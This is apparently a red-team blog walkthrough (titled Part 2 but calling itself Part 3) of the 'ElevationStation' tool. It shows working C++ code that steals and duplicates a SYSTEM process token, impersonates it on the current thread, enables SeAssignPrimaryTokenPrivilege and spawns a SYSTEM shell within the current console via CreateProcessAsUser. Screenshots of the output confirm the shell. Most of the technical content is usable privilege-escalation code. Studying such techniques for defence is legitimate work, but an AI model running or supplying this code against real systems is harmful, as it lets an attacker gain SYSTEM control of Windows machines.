 ```yaml
---
title:  "ElevationStation - A walkthrough through the development process [PART 2]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hey, we made it to part 3 already!  Glad you are still hanging around and hopefully this part is as insightful and exciting to you as it was for me...er...I get excited very easily.  You may not get as hyped as I did but that's cool, I'll shutup now and we can get started 😆  This is my favorite part of the entire code behind elevationstation, and consequently the portion of my research into privilege escalation using token manip that took the longest to figure out 😜

For Part 3, will be discussing SYSTEM token manipulation involving execution threads... 

Our goal: 
-
Spawn a SYSTEM shell within our current shell, and not a separate shell like we did in PART 1.

The Dilemma
- 
Each process has a set of privileges either enabled by default or disabled.  If the privilege we need isn't listed, we can't enable it.  There's no adding it magically into the process' current primary token.  We just so happen to need a privilege that is **NOT** enabled by default in an administrative command shell:
**SE_ASSIGNPRIMARYTOKEN_NAME**

Here are the token privileges for our admninistrative / elevated cmd.exe.  See for yourself, that privilege doesn't exist:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/fb5c8af8-9eb8-4d0b-b986-fa4a4db5f08c)

Why do we even need this stupid privilege in the first place?  Because CreateProcessAsUser, which allows for spawning a cmd shell within the current console, **MUST** have this privilege enabled in almost all circumstances to execute a new process.  Check this out:

`**CreateProcessAsUserA** function (processthreadsapi.h)`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c61852b-5e7c-481a-a81d-9d82e5bd6059)
[CreateProcessAsUser Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)

The absolutely infuriating aspect to all this is **CreateProcessWithToken** is VERY forgiving with required token privileges for spawning a new process.  
However, it has a "bug" which will not allow the spawning of a process within the current process.  In our case, a new cmd shell within our current cmd shell.
If ANYONE knows a way around this, please, speak up.  Inquiring minds need to know 🤔

The Solution!
-
Residing in our target process we wish to steal privs from lies the highly sought after privilege we so desperately need.  

`Step 1` - We need to steal & impersonate the process impersonation token from the target process with SYSTEM privileges
```cpp
int DupThreadToken(DWORD pid)
{
    setProcessPrivs(SE_DEBUG_NAME);
    remoteproc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
    if (remoteproc)
    {
        Color(2);
        wprintf(L"[+] Opened remote process!\n");
        Color(7);
    }
    else
    {
        Color(14);
        wprintf(L"[!] OpenProcess(). Error: %d\n", GetLastError());
        Color(7);
    }
    
   ➡️ if (!OpenProcessToken(remoteproc, TOKEN_IMPERSONATE | TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY, &tok2)) ⬅️
    {
        Color(14);
        wprintf(L"[!] OpenProcessToken(). Error: %d\n", GetLastError());
        Color(7);
    }
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2de0b57e-7b0f-4fc6-a4d2-923625e4992e)

Okay!  so now we have a handle to the process token for the target process, in this case it is AppleMobleDeviceService.exe, which is running as **NT AUTHORITY/SYSTEM**

Next up, we need to set the new token privs to our current process' execution thread.  I duplicate the impersonation token here to be on the safe side, but it may not be necessary. Either way, it works so no harm done.  So, dup the remote process token and then set the threadtoken to our current thread using `NULL`

```cpp
if (!DuplicateToken(tok2, SecurityImpersonation, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    if (SetThreadToken(NULL, hNewToken))
    {
        Color(2);
        printf("[+] Successfully set the thread token!\n");
        Color(7);
    }
```
We now have the remote process' privileges in our current process' execution thread!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/dad2d5f9-7b27-4838-8f16-a81385051aee)

Now that we hold the privileges of the SYSTEM process, let's enable the privilege we wanted in the first place!

```cpp
setThreadPrivs(SE_INCREASE_QUOTA_NAME);     //need this for CreateProcessAsUser!
setThreadPrivs(SE_ASSIGNPRIMARYTOKEN_NAME); //need this for CreateProcessAsUser!
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2637214c-ab91-4c32-945a-52efcdcdf121)

Awesome, it's now enabled and I also went ahead and enabled SeIncreaseQuotaPrivilege too just in case.

We're almost there!  From here, we do some final magic and open a threadtoken against our current process now that we have all our privileges set, and duplicate that token to create a new primary token.  From there, we now finally have a handle to a brand new primary token that holds that privilege we needed from the **SYSTEM** process we stole it from!  All this just to spawn a shell within our current shell because this API is rude... 😠😆  Here's the code:
```cpp
 if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hSystemToken))
    {
        Color(14);
        wprintf(L"[!] OpenThreadToken(). Error: %d\n", GetLastError());
        Color(7);
    }
  if (!DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    bRet = CreateProcessAsUser(hSystemTokenDup, NULL, wszProcessName, NULL, NULL, TRUE, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessAsUser didn't cooperate...\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessAsUser worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);

    }
```
and the shell!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a446b774-b475-4c2c-aa82-45e96ff21db3)

Okay, you can breathe.  It's over, you made it to the end. Well done.  I'm tired now so I'm going to bring this to a close.  Hopefully this made some sense and you learned how high maintenance some windows APIs can be. That said, we still managed to overcome our obstacle and pop that desired shell.  Until next time!

-RBC

